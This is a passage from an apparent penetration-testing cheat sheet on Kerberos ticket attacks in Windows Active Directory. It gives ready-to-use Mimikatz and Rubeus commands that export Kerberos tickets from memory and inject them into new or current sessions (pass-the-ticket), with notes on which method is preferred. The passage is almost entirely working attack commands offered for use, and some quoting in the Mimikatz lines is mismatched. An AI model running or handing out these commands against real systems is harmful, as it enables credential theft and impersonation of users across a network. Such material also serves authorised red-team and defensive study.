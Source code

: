 {% tab title="Invoke-Mimikatz" %}
```powershell
# Export tickets (Preferred Method (More Accurate))
Invoke-Mimikatz -Command '"token::elevate "sekurlsa::tickets /export"'

# Alternative Method
Invoke-Mimikatz -Command '""token::elevate" "kerberos::list /export"'
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../../.gitbook/assets/image (5) (6).png" alt=""><figcaption></figcaption></figure>

## Pass the Ticket (ptT)

{% tabs %}
{% tab title="Rubeus Binary" %}
{% code overflow="wrap" %}
```bash
# Method 1: Pass ticket into seperate session (Preffered)
# Create new LUID session (Requires Elevation)
Rubeus.exe createnetonly /program:c:\windows\system32\cmd.exe /show

# Pass ticket into new session
Rubeus.exe ptt /luid:[LUID from previous command] /ticket:[Base64 ticket]

# Method 2: Pass ticket directly into current session (Can cause auth issues)
Rubeus.exe ptt /ticket:[Base64 ticket]
```
{% endcode %}
{% endtab %}

{% tab title="Invoke-Rubeus" %}
{% code overflow="wrap" %}
```powershell
# Method 1: Pass ticket into seperate session (Preffered)
# Create new LUID session (Requires Elevation)
Invoke-Rubeus -Command "createnetonly /program:c:\windows\system32\cmd.exe /show"

# Pass ticket into new session
Invoke-Rubeus -Command "ptt /luid:[LUID from previous command] /ticket:[Base64 ticket]"

# Method 2: Pass ticket directly into current session (Can cause auth issues)
Invoke-Rubeus -Command "ptt /ticket:[Base64 ticket]"
```
{% endcode %}
{% endtab %}

{% tab title="Mimikatz Binary" %}
```bash
# Pass ticket into current session
kerberos::ptt [Ticket-Name.kirbi]

# Confirm if ticket has been stored
kerberos::list

# Open new session with injected ticket
misc::cmd
```
{% endtab %}

